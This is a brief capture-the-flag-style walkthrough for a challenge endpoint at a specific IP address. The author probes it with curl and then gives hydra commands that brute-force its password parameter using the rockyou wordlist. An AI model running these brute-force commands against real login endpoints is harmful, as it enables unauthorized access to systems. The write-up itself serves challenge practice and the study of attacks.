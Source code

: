 ## Hacking the cracker

the route http://34.69.146.51:5000/level6/
returns to us:

{"error":"Invalid password"}

which obiously means that we need to send a password to the server.

I tried to send a password with curl via the following command:


```bash
curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
```

and the response was:

$ curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

which means it isnt a post request, so lets try a basic get request, with a password variable in the url:

```bash
http://34.69.146.51:5000/level6/?password=3
```
this does return invalid password

so we will start with a python script and bruteforce the password.


using hydra kali linux
the only command i have got not bad command output is:
```bash
hydra -l dummy -P rockyou.txt 34.69.146.51 http-get "/level6/:password=^PASS^:S=success:F=Invalid password"
```


finaly the perfect command:
```bash
hydra -vV -l dummy -P rockyou.txt 34.69.146.51 http-get "/level6/?password=^PASS^:F=Invalid password" -s 5000
```